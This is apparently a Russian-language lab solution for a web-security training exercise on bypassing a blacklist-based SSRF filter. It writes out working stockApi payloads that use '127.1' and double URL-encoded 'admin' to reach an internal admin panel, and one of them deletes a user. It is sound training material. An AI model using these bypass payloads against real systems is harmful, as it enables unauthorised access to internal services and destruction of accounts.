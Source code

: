 # SSRF with blacklist-based input filter
PRACTITIONER

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

The developer has deployed two weak anti-SSRF defenses that you will need to bypass.

## Решение
Вместо localhost передам 127.1, а строку "admin" дважды закодирую через URL-encoding:

`admin -> %61%64%6d%69%6e -> %25%36%31%25%36%34%25%36%64%25%36%39%25%36%65`

`stockApi=http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65`

В ответ приходит интерфейс админской панели:
```
<section>
    <h1>Users</h1>
    <div>
        <span>wiener - </span>
        <a href="/admin/delete?username=wiener">Delete</a>
    </div>
    <div>
        <span>carlos - </span>
        <a href="/admin/delete?username=carlos">Delete</a>
    </div>
</section>
```
`stockApi=http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos`

Задание выполнено.
